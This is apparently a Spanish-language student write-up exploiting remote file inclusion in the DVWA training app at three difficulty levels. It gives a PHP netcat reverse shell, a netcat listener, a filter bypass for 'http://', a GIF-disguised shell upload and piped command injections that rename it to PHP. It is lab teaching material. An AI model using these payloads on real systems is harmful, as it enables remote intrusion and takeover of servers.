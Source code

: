 # RFI

Remote file inclusion (RFI) es una vulnerabilidad que permite a un atacante incluir archivos de un servidor remoto. Esto puede ser utilizado para incluir archivos PHP, que luego pueden ser utilizados para ejecutar código arbitrario en el servidor.

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi.png)

## Medio

Al igual que en el nivel bajo, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Si probamos a ejecutarlo, comprobaremos que no funciona debido a que el servidor habra reemplazado el `http://` por una cadena vacía y por tanto no podrá conectarse al servidor local. Para poder solucionar esto, podemos probar cambiando `http` -> `Http` | `httphttp` | `HTTP` | etc.

```
http://localhost/DVWA/vulnerabilities/fi/?page=Http://localhost/php-reverse-shell.php
```

![rfi-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi-2.png)

Como se puede ver, se ha vuelto a visualizar el archivo `fi.php` de donde extraemos todas las citas.

## Alto

Al contrario que en los niveles anteriores, ahora para subir la reverse shell al servidor remoto debemos hacerlo aprovechando otra vulnerabilidad, en este caso la vulnerabilidad de `subida de archivos` o `file upload`. Para ello, podemos utilizar el script utilizado en la sección de `file upload`:

```php
GIF98
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Como se menciona en la otra sección se puede ver que se consigue subir el archivo `shell.png` a través de la siguiente URI:
![uploaded-high](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/uploaded-h.png)

```
../../hackable/uploads/shell.png
```

```bash
|ls ../../hackable/uploads/
```

```bash
|mv ../../hackable/uploads/shell.png ../fi/file5.php
```

![challenge-4](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/challenge-4.png)

/hackable/flags